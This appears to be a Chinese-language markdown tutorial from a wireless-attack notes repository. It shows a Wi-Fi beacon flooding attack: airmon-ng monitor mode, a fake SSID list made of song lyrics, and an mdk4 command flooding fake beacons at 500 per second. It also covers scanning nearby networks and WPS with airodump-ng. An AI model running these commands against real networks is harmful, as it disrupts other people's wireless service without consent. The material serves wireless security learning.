

Beacon Flooding Attack
===
🔙 [MENU README](../README.md)

```
利用環境中的網卡Monitor Mode去發送假冒的Beacon廣播，偽造出多個不存在的SSID
```
Monitor Mode  
```bash
# change wlan1 to monitor mode
sudo airmon-ng start wlan1

# check change to monitor mode
iwconfig
# wlan1mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=20 dBm   
```
fake-ssid-list
```
# fake-ssid-list.txt

We're no strangers to love
You know the rules and so do I (do I)
A full commitment's what I'm thinking of
You wouldn't get this from any other guy
I just wanna tell you how I'm feeling
Gotta make you understand
Never gonna give you up
Never gonna let you down
Never gonna run around and desert you
Never gonna make you cry
Never gonna say goodbye
Never gonna tell a lie and hurt you
```
mdk4
```bash
sudo mdk4 wlan1mon b -f fake-ssid-list.txt -w nta -m -s 500

# b  : Beacon Attack
# -f : 發送的虛假 SSID 列表的文件
# -w : 啟用 Wi-Fi 無線設備的干擾模式，以干擾目標無線網絡的通信
#      nta表示No Work，意思是不針對加密協議進行破解攻擊
#      僅僅是進行 Beacon Flooding Attack，也就是發送假冒的Beacon廣播
# -m : 啟用無線設備的無線廣播模式，以向周圍的設備發送虛假或混亂的無線信號
# -s : 指定廣播消息的頻率，這裡是每秒 500 
```
Check
```bash
sudo iw wlan2 scan

# wifi list 已經被汙染
sudo iw wlan2 scan | grep SSID:
```
View
```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon --manufacturer --wps --band bg

# --manufacturer: 啟用顯示客戶端的製造商信息
# --wps: 顯示支持 WPS (Wi-Fi Protected Setup) 的無線網絡信息
# --band bg: 指定要掃描的無線網絡頻段，這裡是 2.4 GHz 頻段 (bg)
```
WPS
```
WPS 指的是 Wi-Fi Protected Setup，是一種用於簡化 Wi-Fi 網絡配置和安全設置的標準
WPS 允許用戶通過按下 Wi-Fi 設備上的物理按鈕（或通過 PIN 碼或 NFC 等方法）
來建立安全的無線連接，而無需輸入長密碼
```
